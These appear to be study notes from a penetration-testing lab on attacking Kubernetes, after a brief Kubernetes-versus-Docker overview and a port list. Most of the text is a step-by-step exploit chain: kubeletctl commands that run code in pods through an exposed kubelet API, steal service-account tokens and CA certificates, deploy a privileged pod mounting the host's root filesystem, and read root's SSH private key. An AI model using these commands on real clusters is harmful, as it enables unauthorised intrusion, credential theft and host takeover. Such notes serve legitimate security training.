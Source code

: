 Functions by running all applications in containers isolated from the host system through multiple layers of protection.

Comprised of
- Master node / the control plane: responsible for controlling the Kubernetes cluster 
- Worker nodes / minions: where the containerized applications are run

Differences between K8 and Docker

Docker: platform for containerizing apps
K8: an orchestration tool for managing containers

Docker: manual scaling with docker swarm
K8: automatic scaling

Docker: single network
K8: complex network with policies

Docker: volumes
K8: wide range of storage options


## Control Plane
etcd / TCP 2379,2380
API server / TCP 6443
Scheduler / TCP 10251
Controller Manager / TCP 10252
Kubelet API / TCP 10250
Read-Only Kubelet API / TCP 10255

GET
POST
PUT
PATCH
DELETE

**K8's API Server Interaction
```shell-session
curl https://10.129.10.11:6443 -k
curl https://10.129.10.11:10250/pods -k | jq .
```

**Kubeletctl - Extracting Pods
```shell-session
kubeletctl -i --server 10.129.10.11 pods
```

**Kubelet API - Available Commands
```shell-session
kubeletctl -i --server 10.129.10.11 scan rce
```

**Kubelet API - Executing Commands
```shell-session
kubeletctl -i --server 10.129.10.11 exec "id" -p nginx -c nginx
```

**Privilege Escalation
```shell-session
kubeletctl -i --server 10.129.10.11 exec "id" -p nginx -c nginx
```

**Kubelet API - Extracting Tokens
```shell-session
kubeletctl -i --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token
```

**Kubelet API - Extracting Certificates
```shell-session
kubeletctl --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt
```

**List Privileges
```shell-session
export token=`cat k8.token`
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 auth can-i --list
```
- If we have get create list as a privilege, then we can create a pod YAML, mount root filesystem

Pod YAML
```shell-session
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

**Creating a new pod
```shell-session
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 apply -f privesc.yaml
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 get pods
```

**Extracting Root's SSH Key
```shell-session
kubeletctl --server 10.129.10.11 exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc
```
